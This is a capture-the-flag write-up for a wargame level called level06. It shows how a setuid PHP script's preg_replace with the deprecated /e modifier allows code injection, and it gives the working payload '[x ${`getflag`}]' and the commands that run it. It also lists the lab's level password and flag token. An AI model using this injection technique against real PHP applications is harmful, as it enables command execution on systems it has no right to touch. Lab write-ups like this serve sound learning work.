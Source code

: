 # Level06 - Flag06

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level06 | `viuaaale9huek52boumoomioc` |
| flag06  |                             |
| token   | `wiok45aaoguiboiki2tuin6ub` |

## Steps to resolve on VM

1. Connect to `level06` user and notice there is an executable and a php script owned by `flag06` user

```bash
su level04
# Enter the token

ls -l
> -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
> -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

2. Check the files

```bash
# We check first the content executed by this executable
strings level06
> [...]
> /usr/bin/php # It's indeed a PHP executable
> /home/user/level06/level06.php # Which is using the 'level06.php' script
> [...]

cat level06.php
> #!/usr/bin/php
> <?php
> function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
> function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
> $r = x($argv[1], $argv[2]); print $r;
> ?>
# By watching the script, we can notice that it takes a file as an argument, and applies some 'preg_replace'
# However, the first 'preg_replace' uses the 'e' modifier, a deprecated regex modifier which allows you to use PHP code within your regular expression
# We will use that to inject our "getflag" command
```

3. Exploit the 'e' modifier

We must match the `/(\\[x (.*)\\])/e` regex so it captures our "getflag" command and executes it with the 'e' modifier.

Basically, it will match anything with a format like : `[x test]`, and capture "test" in this example

So we need to give him getflag like this: [x \`getflag\`],
but to make it executable by the PHP script we must enclose it : [x ${\`getflag\`}]

```bash
# 1. Put it in a file
echo '[x ${`getflag`}]' > /tmp/flag06

# 2. Execute the PHP script to get the flag
./level06 /tmp/flag06
> PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
>  in /home/user/level06/level06.php(4) : regexp code on line 1
>
```

---

## Sources

### SHELL

- [/e regex modifier](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)
- [Meaning of \\2](https://stackoverflow.com/questions/44879971/php-meaning-1-in-preg-replace)